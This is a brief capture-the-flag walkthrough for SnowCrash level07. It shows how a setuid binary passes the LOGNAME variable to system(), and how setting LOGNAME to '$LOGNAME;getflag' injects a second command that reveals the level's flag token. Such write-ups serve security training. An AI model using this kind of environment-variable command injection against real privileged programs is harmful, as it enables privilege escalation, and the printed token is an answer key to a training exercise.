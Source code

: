 # <center>Snowcrash level07</center>

# Explanations

<br/>

## On VM:
> $ ls -l
>> -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

> $ ltrace ./level07
>> getenv("LOGNAME") = "level07"<br/>
>> system("/bin/echo level07 "level07

- https://fr.wikipedia.org/wiki/Logname

> $ echo $LOGNAME
>> level07

> $ export LOGNAME="$LOGNAME;getflag"
>> level07<br/>
>> Check flag.Here is your token : fiumuikeil55xe9cu4dood66h



